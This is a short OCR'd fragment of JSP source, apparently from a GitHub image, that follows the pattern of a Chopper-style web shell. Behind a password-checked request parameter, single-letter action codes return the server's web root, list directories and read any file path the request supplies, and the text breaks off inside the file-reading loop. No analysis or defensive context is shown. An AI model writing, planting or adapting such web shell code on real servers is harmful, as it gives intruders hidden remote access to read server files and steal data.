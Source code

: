 ```
sb.append(“Execute Successfully!\t|\t\r\n”);

} catch (Exception ee) {

sb.append(ee.toString() + “\t|\t\r\n”);

}

}

m.close();

c.close();

}

%>

<%

//String Z = EC(request.getParameter(Pwd) + “”, cs);

cs = request.getParameter(“code”) != null ? request.getParameter(“code”)+ “”:cs;

request.setCharacterEncoding(cs);

response.setContentType(“text/html;charset=” + cs);

StringBuffer sb = new StringBuffer("");

if (request.getParameter(Pwd) != null) { `try {

String Z = EC(request.getParameter(“action”) + “”);

String z1 = EC(request.getParameter(“z1”) + “”);

String z2 = EC(request.getParameter(“z2”) + “”);

sb.append("->" + “|”);

String s = request.getSession().getServletContext().getRealPath("/");

if (Z.equals(“A”)) {

sb.append(s + “\t”);

if (!s.substring(0, 1).equals("/")) {

AA(sb);

}

} else if (Z.equals(“B”)) {

BB(z1, sb);

} else if (Z.equals(“C”)) {

String l = “”;

BufferedReader br = new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));

while ((l = br.readLine()) != null) {
```